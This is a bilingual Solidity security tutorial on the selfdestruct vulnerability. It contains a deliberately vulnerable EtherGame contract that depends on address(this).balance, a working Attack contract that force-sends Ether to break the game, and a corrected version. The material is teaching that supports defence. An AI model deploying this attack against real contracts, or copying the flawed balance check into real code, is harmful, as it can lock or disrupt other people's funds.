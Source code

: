 ## 1.Self Destruct
可以通过调用从区块链中删除合约selfdestruct。

selfdestruct将合约中存储的所有剩余以太币发送到指定地址。

漏洞
恶意合约可以用来selfdestruct强制将以太币发送到任何合约。

Contracts can be deleted from the blockchain by calling selfdestruct.

selfdestruct sends all remaining Ether stored in the contract to a designated address.

Vulnerability
A malicious contract can use selfdestruct to force sending Ether to any contract.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

// The goal of this game is to be the 7th player to deposit 1 Ether.
// Players can deposit only 1 Ether at a time.
// Winner will be able to withdraw all Ether.

/*
1. Deploy EtherGame
2. Players (say Alice and Bob) decides to play, deposits 1 Ether each.
2. Deploy Attack with address of EtherGame
3. Call Attack.attack sending 5 ether. This will break the game
   No one can become the winner.

What happened?
Attack forced the balance of EtherGame to equal 7 ether.
Now no one can deposit and the winner cannot be set.
*/

contract EtherGame {
    uint public targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // You can simply break the game by sending ether so that
        // the game balance >= 7 ether

        // cast address to payable
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}
```

### 1-2.预防技术
不要依赖address(this).balance
```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract EtherGame {
    uint public targetAmount = 3 ether;
    uint public balance;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        balance += msg.value;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: balance}("");
        require(sent, "Failed to send Ether");
    }
}
```
